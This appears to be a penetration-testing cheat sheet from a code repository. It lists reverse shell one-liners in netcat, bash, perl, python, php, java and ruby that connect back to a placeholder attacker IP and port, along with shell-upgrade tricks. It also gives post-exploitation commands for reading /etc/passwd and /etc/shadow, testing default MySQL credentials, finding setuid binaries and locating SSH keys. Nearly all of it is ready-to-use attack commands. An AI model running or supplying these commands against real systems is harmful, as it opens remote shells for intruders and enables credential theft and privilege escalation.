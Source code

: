 ## getting a reverse shell:-
### Try using netcat as follows:-
1. on your attacker machine set up a listener by:- nc -lvp "port"
2. on the compromised machine connect with the listener and spawn by:- shell nc -e /bin/bash "attacking machine IP" "port"

### If netcat doesnt work then use netcat to set up listener in the attacker machine via netcat and use the following to get a reverse shell back
/bin/bash -i >& /dev/tcp/IP/PORT 0>&1 (via bash)<br />
or<br />
perl -e 'use Socket;$i="IP";$p="PORT";socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' (via perl)<br />
or<br />
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' (via python) <br />
or<br />
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");' (via php)<br />
or<br />
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() (via java)<br />
or<br />
ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)' (via ruby)

## getting a tty shell:-
python -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
python -c ‘import pty; pty.spawn("/bin/sh")’<br />
or<br />
python3 -c ‘import pty; pty.spawn("/bin/bash")’<br />
or<br />
SHELL="/bin/bash" script -q /dev/null<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

stty -a <br />
#### *then do the following in the victim shell*<br />
export SHELL=/bin/bash<br />
export TERM=xterm256-color<br />
stty rows "rows u found in step1" columns "columns u found in step1"<br />

## Making the shell interactive:-

stty raw -echo

## the obvious stuff:-

history (to check the bash history)<br />
whoami (to check the current user)<br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

uname -a (to get the version of the kernel)<br />
cat /etc/shells 2>/dev/null (list available shells)<br />
ps aux 2>/dev/null<br />
find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (init.d files not belonging to root)<br />
find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null (systemd files not belonging to root)<br />
mysql --version 2>/dev/null (to check the version of mysql if installed to check for any known vulnerabilities)<br />
mysqladmin -uroot -proot version 2>/dev/null (to check if default creds work)<br />
mysqladmin -uroot version 2>/dev/null (to check if no pass works)<br />
psql -V 2>/dev/null (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (read rights)<br />
find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (write rights)<br />
find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null (executable rights)<br />
find / -user root -perm -4000 2>/dev/null (for getting setuid files)<br />
find / -user root -perm -2000 2>/dev/null (for getting all setgid files)<br />
find / \( -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" \) 2>/dev/null  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To get a netcat shell in bsd if -e flag is missing

mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f

## To locate a file 

locate <file_name>
